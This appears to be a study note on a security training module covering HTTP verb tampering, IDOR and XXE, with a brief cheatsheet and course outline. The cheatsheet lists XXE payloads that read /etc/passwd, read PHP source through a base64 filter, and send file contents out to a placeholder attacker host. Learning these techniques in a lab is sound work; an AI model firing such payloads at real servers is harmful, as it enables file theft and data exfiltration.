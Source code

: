 # Web Attacks

Tags: #🧑‍🎓
Related to:
See also:
Previous: [[ ]]

![[logo_web_attacks.png]]

This module covers three common web vulnerabilities, HTTP Verb Tampering, IDOR, and XXE, each of which can have a significant impact on a company's systems. We will cover how to identify, exploit, and prevent each of them through various methods.

### Cheatsheet

#### HTTP Verb Tampering

`HTTP Method`
- `HEAD`
- `PUT`
- `DELETE`
- `OPTIONS`
- `PATCH`

| **Command**   | **Description**   |
| --------------|-------------------|
| `-X OPTIONS` | Set HTTP Method with Curl |

#### IDOR

`Identify IDORS`
- In `URL parameters & APIs`
- In `AJAX Calls`
- By `understanding reference hashing/encoding`
- By `comparing user roles`

| **Command**   | **Description**   |
| --------------|-------------------|
| `md5sum` | MD5 hash a string |
| `base64` | Base64 encode a string |

#### XXE

| **Code**   | **Description**   |
| --------------|-------------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |

### Module Summary

As web applications' popularity keeps increasing, so do the number and types of attacks that web applications are vulnerable to. Many of the most common web attacks have been covered in other web modules already. This module will cover a few other important web exploitation techniques.

The module starts by covering `HTTP Verb Tampering` vulnerabilities that allow attacks to manipulate HTTP requests to access restricted web pages, which may give an attacker access to sensitive resources. The second topic covered is `Insecure Direct Object References (IDOR)` vulnerabilities. IDORs are among the most common vulnerabilities in web applications and allow attackers to easily view and leak other user's private data due to improper access controls. Finally, the module will cover `XML External Entity (XXE) Injection` vulnerabilities. These recently became among the top [10 most critical web vulnerabilities](https://owasp.org/Top10/), as XXE vulnerabilities may allow attackers to read local files stored on the server, gain remote code execution (RCE), or even cause a Denial of Service.

In addition to the above, the `Web Attacks` module will teach you the following:

-   `HTTP Verb Tampering`:
    -   What are HTTP Verb Tampering vulnerabilities?
    -   Examples of insecure configurations
    -   Detecting and exploiting HTTP Verb Tampering vulnerabilities
    -   Examples of secure serve configuration to prevent HTTP Verb Tampering vulnerabilities
-   `IDOR`:
    -   What are IDOR vulnerabilities, and how do they occur
    -   Examples of code vulnerable to IDOR
    -   Different types of IDOR vulnerabilities
    -   How to detect IDOR vulnerabilities
    -   Various methods of exploiting IDOR vulnerabilities
    -   Preventing IDOR vulnerabilities
-   `XXE`:
    -   What are XXE vulnerabilities, and how do they occur
    -   Examples of code vulnerable to XXE
    -   Identifying and exploiting XXE vulnerabilities
    -   Various XXE prevention techniques

* * * * *

This module is broken into sections with accompanying hands-on exercises to practice each of the tactics and techniques we cover. The module ends with a practical hands-on skills assessment to gauge your understanding of the various topic areas.

You can start and stop the module at any time and pick up where you left off. There is no time limit or "grading," but you must complete all of the exercises and the skills assessment to receive the maximum number of cubes and have this module marked as complete in any paths you have chosen.

As you work through the module, you will see example commands and command output for the various topics introduced. It is worth reproducing as many of these examples as possible to reinforce further the concepts presented in each section. You can do this in the `PwnBox` provided in the interactive sections or your virtual machine.

* * * * *

The module is classified as "`Medium`" and assumes a working knowledge of the Linux command line and an understanding of information security fundamentals. The module also assumes a basic understanding of web applications and web requests and will build on this understanding to teach how these vulnerabilities work and how to exploit them.

In addition to the above, a firm grasp of the following modules can be considered as prerequisites for the successful completion of this module:

-   Web Requests
-   Introduction to Web Applications
-   Using Web Proxies
-   Linux Fundamentals
-   Introduction to Bash Scripting